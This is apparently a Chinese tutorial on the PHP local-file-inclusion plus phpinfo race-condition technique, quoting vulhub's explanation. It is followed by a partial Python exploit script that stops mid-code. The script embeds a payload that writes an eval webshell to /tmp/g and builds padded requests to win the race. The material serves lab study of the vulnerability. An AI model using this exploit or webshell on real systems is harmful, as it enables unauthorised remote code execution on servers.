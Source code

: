 **下面引用 p总 在 vulhub 中的详细介绍：**

https://github.com/vulhub/vulhub/tree/master/php/inclusion

在给PHP发送POST数据包时，如果数据包里包含文件区块，无论你访问的代码中有没有处理文件上传的逻辑，PHP都会将这个文件保存成一个临时文件（通常是/tmp/php[6个随机字符]），文件名可以在$_FILES变量中找到。这个临时文件，在请求结束后就会被删除。

同时，因为phpinfo页面会将当前请求上下文中所有变量都打印出来，所以我们如果向phpinfo页面发送包含文件区块的数据包，则即可在返回包里找到$_FILES变量的内容，自然也包含临时文件名。

在文件包含漏洞找不到可利用的文件时，即可利用这个方法，找到临时文件名，然后包含之。

但文件包含漏洞和phpinfo页面通常是两个页面，理论上我们需要先发送数据包给phpinfo页面，然后从返回页面中匹配出临时文件名，再将这个文件名发送给文件包含漏洞页面，进行getshell。在第一个请求结束时，临时文件就被删除了，第二个请求自然也就无法进行包含。

这个时候就需要用到条件竞争，具体流程如下：

发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据
因为phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大
php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接
所以，我们直接操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包
此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除
利用这个时间差，第二个数据包，也就是文件包含漏洞的利用，即可成功包含临时文件，最终getshell

下面是p 总的利用脚本，其中的有些地方我给出了简单的注释，方便大家理解



```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):                                   #所有的请求的内容
    TAG="Security Test"


    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG


    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD

    padding="A" * 5000


    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)

    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
```